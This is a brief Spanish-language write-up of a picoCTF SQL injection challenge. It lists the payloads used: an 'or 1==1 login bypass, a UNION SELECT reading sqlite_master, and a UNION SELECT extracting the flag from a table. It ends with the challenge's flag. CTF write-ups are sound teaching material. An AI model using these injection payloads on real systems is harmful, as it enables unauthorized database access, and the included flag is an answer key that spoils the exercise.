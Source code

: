 
#### Description

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:56129/).

# Solución 

````
utilizar 'or 1==1; donde me permita el acceso para ver las tablas

para obtener la estuctura de las tablas Algiers' union select sql,2,3 from sqlite_master;

 para extraer los datos de la tabla en especifico hola' union select id,flag,3 from more_table;

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}

|   |
|---|
|If you are here, you must have seen it|
```